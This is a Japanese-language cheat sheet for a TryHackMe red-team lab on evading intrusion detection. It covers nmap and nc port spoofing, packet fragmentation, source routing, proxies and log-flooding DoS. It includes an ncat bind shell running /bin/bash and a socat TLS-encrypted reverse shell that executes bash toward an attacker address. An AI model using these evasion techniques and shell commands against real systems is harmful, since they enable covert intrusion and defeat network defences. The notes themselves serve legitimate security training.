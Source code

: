 # IDS-IPS 回避

https://tryhackme.com/r/room/redteamnetsec

## プロトコル操作

### プロトコルを変える

#### nc で UDP を使う

```shell
nc -ulvnp PORT_NUM

nc -u TARGET_IP PORT_NUM
```

### ポートを変える

#### nmap

```shell
# HTTPパケットに見せかける
nmap -sS -Pn -g 80 -F 10.10.25.242

# DNSパケットに見せかける
nmap -sU -Pn -g 53 -F 10.10.25.242
```

#### nc

```shell
# DNSに偽装
nc -ulvnp 53
nc -u ATTACKER_IP 53

# HTTPに偽装
nc -lvnp 80
nc ATTACKER_IP 80
```

### セッションスプライシング（IP パケットの断片化）

#### nmap

```text
Nmap パケットを断片化するためのオプション。

-f パケット内のデータを 8 バイトに
-ff パケット内のデータを最大 16 バイトに
--mtu SIZEIP カスタムサイズを指定。8 の倍数。
```

#### fragroute

特定のホストに送信するパケットサイズを全てフラグメント化する

https://www.monkey.org/~dugsong/fragroute/

### 無効なパケット

```text
nmap のオプション

--badsum 間違ったチェックサム

--scanflags SYNRSTFIN カスタムフラグ
```

## ペイロード操作

### 難読化

```shell
base64
urlencode ncat -lvnp 1234 -e /bin/bash
```

CyberChef で、エスケープされた Unicode

### 暗号化

```shell
# キーを作成
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

# リッスン
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

# 接続
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
```

## ルート操作

### ソースルーティング

パケットが指定の IP を経由する nmap オプション

```shell
# ルーズ
--ip-options "L 10.10.10.50 10.10.50.250"

# 厳密（全てのホップを設定する必要がある）
--ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"
```

### プロキシ

経由するプロキシサーバーを設定

```shell
# HTTPプロキシホスト１と、SOCK4プロキシホスト２を経由
nmap -sS HTTP://PROXY_HOST1:8080,SOCKS4://PROXY_HOST2:4153 10.10.25.242
```

## 戦術的 DoS

- IDS / IPS の処理能力を単純に過負荷にする大量の無害なトラフィックを作成する。
- 大量の悪意のないトラフィックを作成するが、それらはログに記録される。このアクションにより、ログ サーバーとの通信チャネルが混雑したり、ディスク書き込み容量を超えたりする可能性がある。
